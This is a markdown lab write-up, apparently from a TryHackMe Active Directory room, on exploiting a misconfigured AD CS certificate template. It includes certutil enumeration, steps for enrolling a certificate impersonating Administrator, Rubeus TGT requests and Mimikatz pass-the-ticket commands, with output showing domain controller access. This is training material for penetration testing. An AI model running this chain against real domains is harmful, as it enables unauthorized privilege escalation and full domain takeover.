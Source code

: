 # Exploiting Certificates
## AD Certificate Services
- Microsoft's Public Key Infrastructure implementation
- AD provides a level of trust in an organization, it can be used as a Certificate Authority to prove and delegate trust
- AD CS is a privileged function, usually runs on selected Domain Controllers
- Normal user accounts are unable to interact with the service directly

### PKI
- Public Key Infrastructure is a system that manages certificates and public key encryption

### AD CS
- Active Directory Certificate Services
- Microsoft's PKI implementation
- Runs on Domain Controllers

### Certificate Authority
- Is a PKI that issues certificates

### Certificate Template
- Collection of settings and predefined rules that determine the format and content of certificates issued by the CA
- Admin of AD CS can create several templates that can allow any user with relevant permissions to request a certificate themselves

### Certificate Signing Request
- Message sent to a Certificate Authority to request a signed certificate

## Finding Vulnerable Certificate Templates
From Exploiting GPOs task, members of `IT Support` group now have admin and RDP permission on THMSERVER2.
- RDP into THMSERVER2 using account from `IT Support` group  

Use `certutil` to find vulnerable templates

<pre>certutil -Template -v > VulnTemplate.txt</pre>

A certificate template is deemed misconfigured if a combinatin of parameter values becomes poisonous, allowing the requestor to perform privilege escalation.  

We are looking for a template with the following parameter combination:
- `Client_Authentication` Certificate can be used for Client Authentication  
- `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` Certificate template allows us to specify the Subject Alternative Name  
- `CTPRIVATEKEY_FLAG_EXPORTABLE_KEY` Certificate will be exportable with the private key  
- `Certificate_Permissions` We have the required permissions to use the certificate template

[Vulnerable Template](../../Images/VulnTemplate.txt)

From the file above, Template[32] is the vulnerable template:
- Machine account THMSERVER2 can issue a CSR template that allows us to specify SAN and can be used for client authentication

## Exploiting a Certificate Template
- RDP into THMSERVER2
- Request certificate

1. Click Start > Run  
2. Type `mmc` and hit enter  
3. Click File > Add/Remove Snap-in...  
4. Add the certificate snap-in and make sure to select `Computer Account` and `Local Computer` on the prompts  
5. Click Ok  

Request a personal certificate:
1. Right Click on Personal and select All Tasks > Request New Certificate...  
2. Click Next twice to select the AD enrollment policy  
3. You will see that we have one template that we can request, but first, we need to provide additional information  
4. Click on the More Information warning  
5. Change the `Subject Name Type` option to `Common Name` and provide any value, since it does not matter, and click Add  
6. Change the `Alternative Name` Type option to `User Principal Name`  
7. Supply the `UPN` of the user you want to impersonate. The best would be a DA account such as Administrator@za.tryhackme.loc and click Add  
8. Apply and then Ok  
9. Select the certificate and click Enroll  

![Alt text](<../../Images/Exploit Certificate Properties.png>)

Certificate should now be visible in Certificate OU:

![Alt text](<../../Images/Certificate Generated.png>)

Export certificate with private key:
Export certificate with the private key:
1. Right-click on the certificate and select All Tasks > Export...  
2. Click Next, select Yes, export the private key, and click Next  
3. Click Next, then set a password for the certificate since the private key cannot be exported without a password  
4. Click Next and select a location to store the certificate  
5. Click Next and finally click Finish

## User Impersonation through a Certificate
- Use the certificate to request a Kerberos TGT
- Load the Kerberos TGT into hacking platform of choice

#### Rubeus
- Post-exploitation tool used in Windows environments for Kerberos ticket manipulation

<pre>Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate: /password: /outfile: /domain:za.tryhackme.loc /dc:</pre>

`/user` specify the user that we will be impersonating and has to match the UPN for the certificate we generated  
`/enctype` specify the encryption type for ticket  
`/certificate` path to certificate we have generated  
`/password` password for certificate file  
`/outfile` file where TGT will be output to  
`/domain` FQDN of the domain we are attacking  
`/dc` ip address of the Domain Controller we are requesting TGT from (Domain Controller that has CA running)  

<pre> .\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:cameron.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.79.101</pre>  

- Use Mimikatz to load the TGT and authenticate to THMDC  

<pre>mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit


C:\Tools>dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\THMDC.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
04/27/2022  10:53 PM           885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
               7 Dir(s)  50,914,541,568 bytes free
</pre>  

We now have access to Tier 0 infrastructure (Domain Controller) and have compromised the full child domain.